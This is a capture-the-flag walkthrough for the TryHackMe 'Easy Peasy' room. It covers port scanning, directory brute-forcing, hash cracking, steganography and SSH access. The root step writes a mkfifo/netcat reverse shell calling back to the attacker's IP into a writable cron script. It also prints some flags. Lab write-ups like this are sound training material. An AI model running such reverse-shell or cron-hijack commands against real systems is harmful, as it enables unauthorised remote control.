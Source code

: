 ```yaml
---
description: https://tryhackme.com/room/easypeasyctf
---
```


# Easy Peasy

## ****:map: **Nmap**

### **How many ports are open?**

```
nmap -p- -v 10.10.9.93
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-55-45.png>)

### **What is the version of nginx?**

```
nmap -sV -p80 10.10.9.93
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-01-23.png>)

### **What is running on the highest port?**

```
nmap -sV -p65524 10.10.9.93
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-55-01.png>)

#### port 6498

```
nmap -sV -p6498 10.10.9.93
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-57-06.png>)

## :space\_invader: Compromising the machine

### **Using GoBuster, find flag 1**

```
gobuster dir -u http://10.10.9.93/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
gobuster dir -u http://10.10.9.93/hidden \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
curl http://10.10.9.93/hidden/whatever/
echo -n 'ZmxhZ3tmMXJzN19mbDRnfQ==' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-11-31.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-25-06.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-20-43.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 21-23-16.png>)

### **Further enumerate the machine, what is flag 2?**

```
curl http://10.10.9.93:65524/robots.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 23-09-08.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 23-06-28.png>)

### **What is the flag 3?**

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-34-11.png>)

### **What is the hidden directory?**

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-01-06.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-02-41.png>)

### **Using the wordlist that provided to you in this task crack the hash** **what is the password?**

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-03-28.png>)

```
echo -n '940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81' > hash.txt
sort -u easypeasy.txt -o easypeasy.txt
john --format=gost --wordlist=easypeasy.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-07-04.png>)

### **What is the password to login to the machine via SSH?**

```
wget http://10.10.9.93:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg
cat secrettext.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-11-42.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-14-35.png>)

### **What is the user flag?**

```bash
ssh -p6498 boring@10.10.9.93 cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-48-01.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-16-30.png>)

### **What is the root flag?**

```
nc -nvlp 4444
# ls -a /root
# cat /root/.root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-24-16.png>)

```
cat /etc/crontab
ls -l /var/www/.mysecretcronjob.sh
echo -e '#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.101.193 4444 >/tmp/f' > /var/www/.mysecretcronjob.sh
```

![](<../../.gitbook/assets/Screenshot from 2020-09-21 22-21-23.png>)


